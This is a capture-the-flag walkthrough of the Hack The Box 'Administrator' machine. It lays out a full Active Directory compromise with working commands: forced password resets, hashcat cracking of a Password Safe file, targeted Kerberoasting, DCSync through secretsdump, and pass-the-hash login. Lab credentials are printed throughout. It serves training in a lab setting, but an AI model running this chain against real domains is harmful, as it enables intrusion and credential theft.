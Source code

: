 ```yaml
---
date: 2025-04-03
categories: [CTF, HTB]
title: "HTB - Administrator - AD Breach"
tags: ['bloodhound', 'ftp', 'hashcat', 'impacket', 'nmap', 'privilege escalation', 'python', 'rce', 'secretsdump', 'smb', 'windows']


description: "Administrator - AD Breach - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Administrator - AD Breach

We are given the following account to start with:
Username: **Olivia**
Password: **ichliebedich**

NMAP

![image1](../resources/50e46876cd2243c5875f4d000d2a5a48.png)

- Check creds:

```bash
crackmapexec smb 10.10.11.42 -u "olivia" -p "ichliebedich"

```

![image2](../resources/07a7fbc74a9a4430b6acaec81089d3f5.png)

- WinRM in:

```bash
evil-winrm -i 10.10.11.42 -u "olivia" -p "ichliebedich"

```

![image3](../resources/a330f4d2344c4dd2bd8b5737b26aa317.png)

- Run BloodHound:

```bash
bloodhound-python -c all -d administrator.htb -dc dc.administrator.htb -u olivia -p "ichliebedich" -ns 10.10.11.42

```

![image4](../resources/5df522cb9cd34b5da1316b10b77b064f.png)


![image5](../resources/954e4fc6fde94791ae772fb6549e1e9b.png)


![image6](../resources/eeb16fc489d347299848ff00c4ca39e7.png)


![image7](../resources/1994c18fafa741a2b1bdc8b5ebcb1142.png)

- Change passwords for users:

```bash
rpcclient -U 'administrator.htb/olivia%ichliebedich' 10.10.11.42

setuserinfo2 michael 23 'Password1'

rpcclient -U 'administrator.htb/michael%Password1' 10.10.11.42

setuserinfo2 benjamin 23 'Password1'

```

- We can remote in with Michael:

![image8](../resources/1c7be244480341b89c095e84a2595fe7.png)

And he has PowerView in his Documents folder

- Moving on - We changed Benjamin's password as well

- He can't remote in
- Shares doesn't show anything special

- But he can log in to the ftp server:

```bash
ftp 10.10.11.42
```

![image9](../resources/f6d47ff05f304409a87a88cfd036ebf7.png)

- We get a psafe3 file:
Password Safe V3 database


![image10](../resources/09335f53afec4e53b04fc16c7c05893d.png)

- Searching online, we see hashcat can crack it without extracting the hash first:

![image11](../resources/1dca03b18a0943eb85b6320b3c30e589.png)

```bash
hashcat -m 5200 -a 0 Backup.psafe3 /usr/share/wordlists/rockyou.txt

```

![image12](../resources/d46253ec2a934d048f1846eaa8e059f7.png)

**Backup.psafe3 : tekieromucho**

- Download and open file in PasswordSafe:

![image13](../resources/c2694de1375d4f34a49ef15c7f993483.png)


![image14](../resources/9ae4d9e735e54f0d9011796a26fa8333.png)

alexander : UrkIbagoxMyUGw0aPlj9B0AXSea4Sw

emily : UXLCI5iETUsIBoFVTj8yQFKoHjXmb

emma : WwANQWnmJnGV07WQN8bMS7FMAbjNur

- We have Emily's password --\> which has **GenericWrite** over Ethan --\> Which can DCSync

**<u>From Windows</u>**
- Upload PowerView.ps1 and run:

```bash
. .\Powerview.ps1

Set-DomainObject -Identity ethan -Set @{serviceprincipalname="SPN/ethan}

```

![image15](../resources/fb6763e2b8584240a8e3cf5bc12ff489.png)

Remove the SPN After Obtaining the Hash:

```bash
Set-DomainObject -Identity target_user_samaccountname -Remove @{serviceprincipalname="SPN/targetuser"}
sudo ntpdate -u 10.10.11.42
impacket-GetUserSPNs administrator.htb/emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb -dc-ip 10.10.11.42 -request
```

![image16](../resources/5cf2fd9fc0434402a1958344e7cfa61d.png)

**<u>Or from KALI:</u>**
[TargetedKerberoast:](https://github.com/ShutdownRepo/targetedKerberoast?tab=readme-ov-file)

```bash
python3 targetedKerberoast.py -d administrator.htb -u emily -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" --dc-ip 10.10.11.42

```

![image17](../resources/ad38bf2545734ff7a752129f45ce9067.png)

```bash
hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

```

![image18](../resources/c12e2f812bec4aa8b0b6ca0855ed03d5.png)

**ethan : limpbizkit**

- Ethan has DCSync rights:

```bash
impacket-secretsdump administrator.htb/ethan:limpbizkit@10.10.11.42

```

![image19](../resources/d8f1510a09554b059fa8c03c14745b2d.png)

```bash
evil-winrm -i 10.10.11.42 -u "administrator" -H "3dc553ce4b9fd20bd016e098d2d2fd2e"

```

![image20](../resources/1e9bb9cf9b1441a284f28afe15c0c11e.png)